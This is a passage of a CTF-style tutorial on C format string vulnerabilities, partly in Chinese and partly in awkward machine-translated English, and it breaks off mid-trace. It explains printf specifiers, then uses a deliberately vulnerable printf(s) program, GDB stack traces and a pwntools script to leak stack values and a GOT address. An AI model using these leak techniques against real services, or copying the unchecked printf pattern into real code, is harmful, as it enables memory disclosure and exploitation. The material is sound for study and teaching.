








# 格式化字符串

Author: H3rmesk1t

Data: 2022-2-16

# 原理
## 格式化字符串函数介绍
格式化字符串函数可以接受可变数量的参数, 并将第一个参数作为格式化字符串, 根据其来解析之后的参数. 通俗来说, 格式化字符串函数就是将计算机内存中表示的数据转化为人类可读的字符串格式. 几乎所有的`C/C++`程序都会利用格式化字符串函数来输出信息, 调试程序, 或者处理字符串. 一般来说, 格式化字符串在利用的时候主要分为三个部分:
 - 格式化字符串函数
 - 格式化字符串
 - 后续参数(可选)

例如在`C/C++`程序中常用的`printf`函数之类的:

<div align=center></div>

### 格式化字符串函数
常见的格式化字符串函数有:
 - 输入
   - scanf
 - 输出
   - printf: 输出到 stdout
   - fprintf: 输出到指定 FILE 流
   - vprintf: 根据参数列表格式化输出到 stdout
   - vfprintf: 根据参数列表格式化输出到指定 FILE 流
   - sprintf: 输出到字符串
   - snprintf: 输出指定字节数到字符串
   - vsprintf: 根据参数列表格式化输出到字符串
   - vsnprintf: 根据参数列表格式化输出到指定字节到字符串
   - setproctitle: 设置 argv
   - syslog: 输出日志
   - err, verr, warn, vwarn etc...

### 格式化字符串
格式化字符串中的占位符用于指明输出的参数值如何格式化, 格式化占位符的基本格式为:

```text
%[parameter][flags][field width][.precision][length]type
```

 1. `parameter`可以忽略或者是:

|字符|描述|
|:----:|:----:|
|`n$`|`n`是用这个格式说明符显示第几个参数; 这使得参数可以输出多次, 使用多个格式说明符, 以不同的顺序输出. 如果任意一个占位符使用了`parameter`, 则其他所有占位符必须也使用`parameter`, 这是[POSIX扩展](https://zh.wikipedia.org/wiki/POSIX), 不属于[ISO C](https://zh.wikipedia.org/wiki/C%E8%AF%AD%E8%A8%80). 例如, `printf("%2$d %2$#x; %1$d %1$#x", 16, 17)`产生`"17 0x11; 16 0x10"`.|

 2. `flags`可以为`0`或者多个:

|字符|描述|
|:----:|:----:|
|`+`|总是表示有符号数值的`+`或`-`号, 缺省情况是忽略正数的符号, 仅适用于数值类型.|
|`空格`|使得有符号数的输出如果没有正负号或者输出`0`个字符, 则前缀`1`个空格; 如果空格与`+`同时出现, 则空格说明符被忽略.|
|`-`|左对齐, 缺省情况是右对齐.|
|`#`|对于`g`与`G`, 不删除尾部`0`以表示精度. 对于`f`, `F`, `e`, `E`, `g`, `G`, 总是输出小数点. 对于`o`, `x`, `X`, 在非`0`数值前分别输出前缀`0`, `0x`, `0X`表示数制.|
|`0`|如果`width`选项前缀以`0`, 则在左侧用`0`填充直至达到宽度要求. 例如, `printf("%2d", 3)`输出`" 3"`, 而`printf("%02d", 3)`输出`"03"`. 如果`0`与`-`均出现, 则`0`被忽略, 即左对齐依然用空格填充.|

 3. `field width`给出显示数值的最小宽度, 典型用于制表输出时填充固定宽度的表目. 实际输出字符的个数不足域宽, 则根据左对齐或右对齐进行填充. 实际输出字符的个数超过域宽并不引起数值截断, 而是显示全部. 宽度值的前导`0`被解释为`0`填充标志, 如上述: 前导的负值被解释为其[绝对值](https://zh.wikipedia.org/wiki/%E7%BB%9D%E5%AF%B9%E5%80%BC), 负号解释为左对齐标志. 如果域宽值为`*`, 则由对应的函数参数的值为当前域宽.

 4. `precision`通常指明输出的最大长度, 依赖于特定的格式化类型. 对于`d`、`i`、`u`、`x`、`o`的整型数值, 是指最小数字位数, 不足的位要在左侧补`0`, 如果超过也不截断, 缺省值为`1`. 对于`a`, `A`, `e`, `E`, `f`, `F`的浮点数值, 是指小数点右边显示的数字位数, 必要时四舍五入或补`0`, 缺省值为`6`. 对于`g`, `G`的浮点数值, 是指有效数字的最大位数, 缺省值为`6`. 对于`s`的字符串类型, 是指输出的字节的上限, 超出限制的其它字符将被截断. 如果域宽为`*`, 则由对应的函数参数的值为当前域宽. 如果仅给出了小数点, 则域宽为`0`.

 5. `length`指出浮点型参数或整型参数的长度:

|字符|描述|
|:----:|:----:|
|`h`|对于整数类型, `printf`期待一个从`short`提升的`int`尺寸的整型参数.|
|`hh`|对于整数类型, `printf`期待一个从`char`提升的`int`尺寸的整型参数.|
|`l`|对于整数类型, `printf`期待一个`long`尺寸的整型参数; 对于浮点类型, `printf`期待一个`double`尺寸的整型参数; 对于字符串`s`类型, `printf`期待一个`wchar_t`指针参数; 对于字符`c`类型, `printf`期待一个`wint_t`型的参数.|
|`ll`|对于整数类型, `printf`期待一个`long long`尺寸的整型参数.|
|`L`|对于浮点类型, `printf`期待一个`long double`尺寸的整型参数.|
|`z`|对于整数类型, `printf`期待一个`size_t`尺寸的整型参数.|
|`j`|对于整数类型, `printf`期待一个`intmax_t`尺寸的整型参数.|
|`t`|对于整数类型, `printf`期待一个`ptrdiff_t`尺寸的整型参数.|

 6. `type`也称转换说明(conversion specification/specifier), 可以是:

|字符|描述|
|:----:|:----:|
|`d`, `i`|有符号十进制数值`int`. `%d`与`%i`对于输出是同义, 但对于`scanf`输入二者不同. 其中`%i`在输入值有前缀`0x`或`0`时, 分别表示`16`进制或`8`进制的值. 如果指定了精度, 则输出的数字不足时在左侧补`0`, 默认精度为`1`. 精度为`0`且值为`0`, 则输出为空.|
|`u`|十进制`unsigned int`. 如果指定了精度, 则输出的数字不足时在左侧补`0`, 默认精度为`1`. 精度为`0`且值为`0`, 则输出为空.|
|`f`, `F`|`double`型输出`10`进制定点表示. `f`与`F`差异是表示无穷与`NaN`时, `f`输出`inf`, `infinity`与`nan`, `F`输出`INF`, `INFINITY`与`NAN`. 小数点后的数字位数等于精度, 最后一位数字四舍五入, 精度默认为`6`. 如果精度为`0`且没有`#`标记, 则不出现小数点, 小数点左侧至少一位数字.|
|`e`, `E`|`double`值, 输出形式为`10`进制的`([-]d.ddd e[+/-]ddd)`. `E`版本使用的指数符号为`E`(而不是`e`). 指数部分至少包含`2`位数字, 如果值为`0`, 则指数部分为`00`. `Windows`系统指数部分至少为`3`位数字, 例如`1.5e002`, 也可用`Microsoft`版的运行时函数`_set_output_format`修改. 小数点前存在`1`位数字, 小数点后的数字位数等于精度, 精度默认为`6`. 如果精度为`0`且没有`#`标记, 则不出现小数点.|
|`g`, `G`|`double`型数值, 精度定义为全部有效数字位数. 当指数部分在闭区间`[-4,5]`内, 输出为定点形式; 否则输出为指数浮点形式. `g`使用小写字母, `G`使用大写字母. 小数点右侧的尾数`0`不被显示, 显示小数点仅当输出的小数部分不为`0`.|
|`x`, `X`|`16`进制`unsigned int`. `x`使用小写字母, `X`使用大写字母. 如果指定了精度, 则输出的数字不足时在左侧补`0`, 默认精度为`1`. 精度为`0`且值为`0`则输出为空.|
|`o`|`8`进制`unsigned int`. 如果指定了精度, 则输出的数字不足时在左侧补`0`, 默认精度为`1`. 精度为`0`且值为`0`, 则输出为空.|
|`s`|如果没有用`l`标志, 输出`null`结尾字符串直到精度规定的上限; 如果没有指定精度, 则输出所有字节; 如果用了`l`标志, 则对应函数参数指向`wchar_t`型的数组, 输出时把每个
宽字符转化为多字节字符, 相当于调用`wcrtomb`函数.|
|`c`|如果没有用`l`标志, 把`int`参数转为`unsigned char`型输出; 如果用了`l`标志, 把`wint_t`参数转为包含两个元素的`wchart_t`数组, 其中第一个元素包含要输出的字符, 第二个元素为`null`宽字符.
|`p`|`void *`型.|
|`a`, `A`|`double`型的`16`进制表示, `"[−]0xh.hhhh p±d"`. 其中指数部分为`10`进制表示的形式, 例如: `1025.010`输出为`0x1.004000p+10`. `a`使用小写字母, `A`使用大写字母.|
|`n`|不输出字符, 但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量.|
|`%`|`%`字面值, 不接受任何`flags`, `width`, `precision`, `length`.|

宽度与精度格式化参数可以忽略, 或者直接指定, 或者用星号`*`表示取对应函数参数的值. 例如: `printf("%*d", 5, 10)`输出`"   10"`, `printf("%.*s", 3, "abcdef")`输出`"abc"`. 如果函数参数太少, 不能匹配所有的格式参数说明符或者函数参数的类型不匹配, 将导致未定义行为; 过多的函数参数被忽略. 许多时候, 未定义的行为将导致格式化字符串攻击.

## 格式化字符串漏洞原理
在上文中给出了格式化字符串的基本介绍, 格式化字符串函数是根据格式化字符串函数来进行解析的, 那么相应的要被解析的参数的个数也自然是由这个格式化字符串所控制. 比如说`%s`表明我们会输出一个字符串参数. 继续以上文的例子来进行介绍:

<div align=center></div>

对于这个例子, 在进入`printf`函数的之前, 即还没有调用`printf`, 栈上的布局由高地址到低地址依次如下:

```text
some value
3.14
123456
addr of "red"
addr of format string: Color %s ...
```

在进入`printf`之后, 函数首先获取第一个参数, 一个一个读取其字符会遇到两种情况:
 - 当前字符不是`%`, 直接输出到相应标准输出.
 - 当前字符是`%`, 继续读取下一个字符:
   - 后续未有字符, 报错.
   - 后续字符是`%`, 输出`%`.
   - 否则根据后续相应的字符来获取相应的参数, 对其进行解析并输出.

假设在程序编写时出现了如下语句:

```c++
printf("Color %s, Number %d, Float %4.2f");
```

此时可以发现语句中并没有提供参数, 但是程序照样会运行, 会将栈上存储格式化字符串地址上面的三个变量分别解析为:
 1. 解析其地址对应的字符串
 2. 解析其内容对应的整形值
 3. 解析其内容对应的浮点值

对于`情形1`来说, 如果提供了一个不可访问地址, 比如`0`, 那么程序就会因此而崩溃, 这基本就是格式化字符串漏洞的基本原理.

# 利用
在上文讲解原理时, 展示了格式化字符串漏洞的两个利用手段:
 - 使程序崩溃, 因为`%s`对应的参数地址不合法的概率比较大.
 - 查看进程内容, 根据`%d`, `%f`输出了栈上的内容.

## 程序崩溃
利用格式化字符串漏洞使得程序崩溃是最为简单的利用方式, 因为只需要输入若干个`%s`即可.

这是因为栈上不可能每个值都对应了合法的地址, 所以总是会有某个地址可以使得程序崩溃. 虽然攻击者本身似乎并不能利用这个漏洞点来控制程序, 但是这样却可以造成程序不可用. 比如说, 远程服务有一个格式化字符串漏洞, 那么就可以攻击其可用性, 使服务崩溃, 进而使得用户不能够访问.

## 泄露内存
利用格式化字符串漏洞, 还可以获取想要输出的内容. 一般会有如下几种操作:
 - 泄露栈内存
   - 获取某个变量的值.
   - 获取某个变量对应地址的内存.
 - 泄露任意地址内存
   - 利用 GOT 表得到 libc 函数地址, 进而获取 libc, 进而获取其它 libc 函数地址.
   - 盲打, dump 整个程序来获取有用信息.

### 泄露栈内存
示例代码如下:

```c++
#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```

使用如下命令简单编译一下:

```bash
gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
```

从编译结果中可以看到, 编译器指出了我们的程序中没有给出格式化字符串的参数的问题.

<div align=center></div>

#### 获取栈变量数值
首先, 我们利用格式化字符串来获取栈上变量的数值, 运行结果如下:

<div align=center></div>

为了更加细致的观察, 我们利用`GDB`来调试一下, 启动程序后将断点下在`printf`函数处, 接着运行程序, 输入`%08x.%08x.%08x`, 然后敲击回车使程序继续运行, 可以看出程序首先断在了第一次调用`printf`函数的位置, 栈中第一个变量为返回地址, 第二个变量为格式化字符串的地址, 第三个变量为`a`的值, 第四个变量为`b`的值, 第五个变量为`c`的值, 第六个变量为输入的格式化字符串对应的地址.

<div align=center></div>

继续运行程序, 可以看出程序确实输出了每一个变量对应的数值, 并且断在了下一个`printf`处. 此时由于格式化字符串为`%08x.%08x.%08x`, 所以程序会将栈上的`0xffb06d80`及其之后的数值分别作为第一, 第二, 第三个参数按照`int`型进行解析, 分别输出.

<div align=center></div>

继续运行, 我们可以得到如下结果, 也可以使用`%p`来获取数据:

<div align=center></div>

这里需要注意的是, 并不是每次得到的结果都一样, 因为栈上的数据会因为每次分配的内存页不同而有所不同, 这是因为栈是不对内存页做初始化的. 上面给出的方法都是依次获得栈中的每个参数, 但是我们有办法直接获取栈中被视为第`n+1`个参数的值, 方法为`%n$x`. 利用`GDB`进行调试, 可以看出确实获得了`printf`的第`4`个参数所对应的值`80491d1`.

```c++
gdb-peda$ b printf
Breakpoint 1 at 0x8049070
gdb-peda$ r
Starting program: /ctf/work/leakmemory
%3$x


[------------------------------------stack-------------------------------------]
0000| 0xfff560fc --> 0x804921e (<main+104>:     add    esp,0x20)
0004| 0xfff56100 --> 0x804a00b ("%08x.%08x.%08x.%s\n")
0008| 0xfff56104 --> 0x1
0012| 0xfff56108 ("\"\"\"\"\377\377\377\377 a\365\377 a\365\377\220\231\372\367ё\004\b%3$x")
0016| 0xfff5610c --> 0xffffffff
0020| 0xfff56110 --> 0xfff56120 ("%3$x")
0024| 0xfff56114 --> 0xfff56120 ("%3$x")
0028| 0xfff56118 --> 0xf7fa9990 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, __printf (format=0x804a00b "%08x.%08x.%08x.%s\n") at printf.c:28
28      printf.c: No such file or directory.
gdb-peda$ c
Continuing.
00000001.22222222.ffffffff.%3$x


[--------------------
----------------stack-------------------------------------]
0000| 0xfff5610c --> 0x804922d (<main+119>: add esp,0x10)
0004| 0xfff56110 --> 0xfff56120 ("%3$x")
0008| 0xfff56114 --> 0xfff56120 ("%3$x")
0012| 0xfff56118 --> 0xf7fa9990 --> 0x0
0016| 0xfff5611c --> 0x80491d1 (<main+27>: add ebx,0x2e2f)
0020| 0xfff56120 ("%3$x")
0024| 0xfff56124 --> 0xc30000
0028| 0xfff56128 --> 0x1
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, __printf (format=0xfff56120 "%3$x") at printf.c:28
28 in printf.c
gdb-peda$ c
Continuing.
80491d1[Inferior 1 (process 70) exited normally]
```

#### Get the string corresponding to the stack variable
In addition, we can also use `%s` to obtain the string corresponding to the stack variable. Here we use the above program for `GDB` debugging. When executing the `printf` function the second time, the variable at `0xc30000` is indeed regarded as a string variable, and the string at the address corresponding to its value is output.

```c++
gdb-peda$ b printf
Breakpoint 1 at 0x8049070
gdb-peda$ r
Starting program: /ctf/work/leakmemory
%s
[----------------------------------registers-----------------------------------]
EAX: 0x804a00b ("%08x.%08x.%08x.%s\n")
EBX: 0x804c000 --> 0x804bf14 --> 0x1
ECX: 0x0
EDX: 0xf7f66000 --> 0x1ead6c
ESI: 0xf7f66000 --> 0x1ead6c
EDI: 0xf7f66000 --> 0x1ead6c
EBP: 0xff8d3428 --> 0x0
ESP: 0xff8d338c --> 0x804921e (<main+104>: add esp,0x20)
EIP: 0xf7dcf340 (<__printf>: endbr32)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7dcf33b <__fprintf+27>: add esp,0x1c
   0xf7dcf33e <__fprintf+30>: ret
   0xf7dcf33f: nop
=> 0xf7dcf340 <__printf>: endbr32
   0xf7dcf344 <__printf+4>: call 0xf7ec2b0d <__x86.get_pc_thunk.ax>
   0xf7dcf349 <__printf+9>: add eax,0x196cb7
   0xf7dcf34e <__printf+14>: sub esp,0xc
   0xf7dcf351 <__printf+17>: lea edx,[esp+0x14]
[------------------------------------stack-------------------------------------]
0000| 0xff8d338c --> 0x804921e (<main+104>: add esp,0x20)
0004| 0xff8d3390 --> 0x804a00b ("%08x.%08x.%08x.%s\n")
0008| 0xff8d3394 --> 0x1
0012| 0xff8d3398 ("\"\"\"\"\377\377\377\377\260\063\215\377\260\063\215\377\220i\372\367ё\004\b%s")
0016| 0xff8d339c --> 0xffffffff
0020| 0xff8d33a0 --> 0xff8d33b0 --> 0x7325 ('%s')
0024| 0xff8d33a4 --> 0xff8d33b0 --> 0x7325 ('%s')
0028| 0xff8d33a8 --> 0xf7fa6990 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, __printf (format=0x804a00b "%08x.%08x.%08x.%s\n") at printf.c:28
28 printf.c: No such file or directory.
gdb-peda$ c
Continuing.
00000001.22222222.ffffffff.%s
[----------------------------------registers-----------------------------------]
EAX: 0xff8d33b0 --> 0x7325 ('%s')
EBX: 0x804c000 --> 0x804bf14 --> 0x1
ECX: 0x0
EDX: 0x804a01d --> 0x1000000
ESI: 0xf7f66000 --> 0x1ead6c
EDI: 0xf7f66000 --> 0x1ead6c
EBP: 0xff8d3428 --> 0x0
ESP: 0xff8d339c --> 0x804922d (<main+119>: add esp,0x10)
EIP: 0xf7dcf340 (<__printf>: endbr32)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7dcf33b <__fprintf+27>: add esp,0x1c
   0xf7dcf33e <__fprintf+30>: ret
   0xf7dcf33f: nop
=> 0xf7dcf340 <__printf>: endbr32
   0xf7dcf344 <__printf+4>: call 0xf7ec2b0d <__x86.get_pc_thunk.ax>
   0xf7dcf349 <__printf+9>: add eax,0x196cb7
   0xf7dcf34e <__printf+14>: sub esp,0xc
   0xf7dcf351 <__printf+17>: lea edx,[esp+0x14]
[------------------------------------stack-------------------------------------]
0000| 0xff8d339c --> 0x804922d (<main+119>: add esp,0x10)
0004| 0xff8d33a0 --> 0xff8d33b0 --> 0x7325 ('%s')
0008| 0xff8d33a4 --> 0xff8d33b0 --> 0x7325 ('%s')
0012| 0xff8d33a8 --> 0xf7fa6990 --> 0x0
0016| 0xff8d33ac --> 0x80491d1 (<main+27>: add ebx,0x2e2f)
0020| 0xff8d33b0 --> 0x7325 ('%s')
0024| 0xff8d33b4 --> 0xc30000
0028| 0xff8d33b8 --> 0x1
[------------------------------------------------------------------------------------------------------------------------------
------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, __printf (format=0xff8d33b0 "%s") at printf.c:28
28 in printf.c
gdb-peda$ c
Continuing.
%s[Inferior 1 (process 76) exited normally]
```

Of course, not all such things will run normally. If the corresponding variable cannot be parsed into a string address, the program will crash directly. In addition, we can also specify which parameter on the stack is obtained as the formatted string output, such as the third parameter of `printf`. At this time, the program cannot parse and will crash directly.

<div align=center></div>

##### Tips Summary
 1. Use `%x` to get the memory of the corresponding stack, but it is recommended to use `%p`, so you don’t need to consider the difference in bit count.
 2. Use `%s` to obtain the content of the corresponding address of the variable, but there is zero truncation.
 3. Use `%order$x` to get the value of the specified parameter, and use `%order$s` to get the content of the corresponding address of the specified parameter.

### Leak any address memory
It can be seen that whether you leak continuous variables on the stack or leak specified variable values, you cannot fully control the address of the variable to be leaked. Such leakage is of course useful, but it is not powerful enough. Sometimes you may want to leak the content of a `get` table of a `libc` function, so as to get its address, and then get the address of the `libc` version and other functions. At this time, it is important to fully control the memory of a slim address that leaks a specified address. Generally speaking, in the format string vulnerability, the format strings read are all on the stack (because it is a local variable of a function, in this case `s` is a local variable of the `main` function). That is to say, when calling the output function, the value of the first parameter is actually the address of the format string. Let's use the above function call as an example:

```c++
[------------------------------------stack-------------------------------------]
0000| 0xff8d339c --> 0x804922d (<main+119>: add esp,0x10)
0004| 0xff8d33a0 --> 0xff8d33b0 --> 0x7325 ('%s')
0008| 0xff8d33a4 --> 0xff8d33b0 --> 0x7325 ('%s')
0012| 0xff8d33a8 --> 0xf7fa6990 --> 0x0
0016| 0xff8d33ac --> 0x80491d1 (<main+27>: add ebx,0x2e2f)
0020| 0xff8d33b0 --> 0x7325 ('%s')
0024| 0xff8d33b4 --> 0xc30000
0028| 0xff8d33b8 --> 0x1
```

It can be seen that the second variable on the stack is our formatted string address `0xff8d33b0`, and the address stores the formatted string contents. Then, since the formatted string can be controlled, if you know which parameter the formatted string is when the output function call is, here assuming that the formatted string is the `k`th parameter relative to the function call, then we can obtain the content of a specified address `addr` through the `addr%k$s` method.

The following is how to determine which parameter the formatted string is. You can determine it in the following way:

```c++
[tag]%p%p%p%p%p%p%p...
```

Generally speaking, we will repeat the machine word length of a certain character as a `tag`, and then follow several `%p` to output the content on the stack. If the content is repeated with the `tag` in front of us, then we can be very confident that the address is the address of the formatted string. The reason why we are very confident is that it is not ruled out that some temporary variables on the stack are also the value. Generally speaking, this is extremely rare. In this case, you can change other characters and try it and confirm it again. Here we use the character `A` as a specific character to test the previously compiled program.

<div align=center></div>

From the location of `0x41414141`, it can be seen that the starting address of the formatted string is exactly the 5th parameter of the output function, but it is the 4th parameter of the formatted string. At this time, if you use `%4$s` to test, you will find that the program will crash. This is because when trying to parse the value corresponding to the formatted string as an address, the value cannot be parsed as a legal address, so the program crashes. It can also be seen during debugging in the figure below that the variable value `0x73243425` corresponding to the formatted string corresponding to the `0xff8567b0` position cannot be accessed by the modified program, so the program naturally crashes.

<div align=center></div>

If we set an accessible address, for example `scanf@got`, the corresponding address of `scanf` will be output at this time.

<div align=center></div>

Use `pwntools` to construct scripts for debugging:

```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

When running to the second `printf` function, you can see that the fourth parameter does point to the address of `scanf`.

```c++
 → 0xf7615670 <printf+0> call 0xf76ebb09 <__x86.get_pc_thunk.ax>
   ↳ 0xf76ebb09 <__x86.get_pc_thunk.ax+0> mov eax, DWORD PTR [esp]
      0xf76ebb0c <__x86.get_pc_thunk.ax+3> ret
      0xf76ebb0d <__x86.get_pc_thunk.dx+0> mov edx, DWORD PTR [esp]
      0xf76ebb10 <__x86.get_pc_thunk.dx+3> ret
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffbbf8dc', 'l8']
8
0xffbbf8dc│+0x00: 0x080484ce → <main+99> add esp, 0x10 ← $esp
0xffbbf8e0│+0x04: 0xffbbf8f0 → 0x0804a014 → 0xf76280c0 → <__isoc99_scanf+0> push ebp
0xffbbf8e4│+0x08: 0xffbbf8f0 → 0x0804a014 → 0xf76280c0 → <__isoc99_scanf+0> push ebp
0xffbbf8e8│+0x0c: 0x00000c2
0xffbbf8ec│+0x10: 0xf765c6bb → <handle_intel+107> add esp, 0x10
